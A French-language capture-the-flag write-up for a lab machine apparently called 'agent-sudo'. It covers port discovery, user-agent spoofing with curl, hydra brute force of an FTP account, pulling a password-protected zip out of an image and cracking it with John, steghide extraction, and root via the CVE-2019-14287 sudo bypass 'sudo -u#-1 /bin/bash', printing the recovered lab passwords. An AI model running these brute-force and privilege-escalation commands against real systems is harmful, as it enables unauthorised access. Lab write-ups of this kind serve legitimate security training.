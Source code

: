 
# Découverte
On a 3 ports ouverts :
- HTTP
- SSH
- FTP

Sur la page web, on comprend qu'il faut modifier le user agent pour accéder au site.
Avec curl en précisant l'option L pour suivre les redirections on a une page différente.
```bash
curl --user-agent 'C' -L http://10.10.3.190
```

On apprend alors que le mot de passe de Chris (codename C) est faible.

# FTP
On cherche alors à brute force son compte sur le FTP
```bash
hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.3.190
```
Son mdp est : crystal

## Zip caché
On obtient 2 image et une note disant qu'un message est caché dans les images.
En exécutant `strings` sur les images, on comprend qu'une image cache une note.

En fait, l'image n'est pas une image mais un fichier ZIP !
En réalité c'est la concaténation d'une image et d'un fichier Zip.
Le zip est protégé par un mot de passe...

```bash
# Extract zip from image
binwalk -e cutie.png

# Crack hash
zip2john file.zip > ziphash
john ziphash
```
Le mdp est alien
On décode le Zip !

On obtient de nouveau mot de passe : Area51

## Steganographie
Sur la deuxième image, on se rend compte que des info sont caché et protégé par un mot de passe, celui que l'on vient de trouver !
```bash
steghide info cute-alien.jpg
steghide extract -sf cute-alien.jpg
```
On obtient le mot de passe de james : hackerrules!

# SSH
On récupère le flag user et il y a aussi une image d'alien présente sur le bureau que l'on récupère :
```bash
scp james@10.10.3.190:/home/james/Alien_autospy.jpg
```
Avec de l'OSINT et un article sur Foxnews on comprend à quoi correspond l'image.


# Privilege escalation
On regarde si on est dans les sudoers de quelques choses.
```bash
sudo -l
User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```
Très étrange...
-> Une CVE est associé à cette configuration : CVE-2019-14287.

Trivial à exploiter : ``sudo -u#-1 /bin/bash`
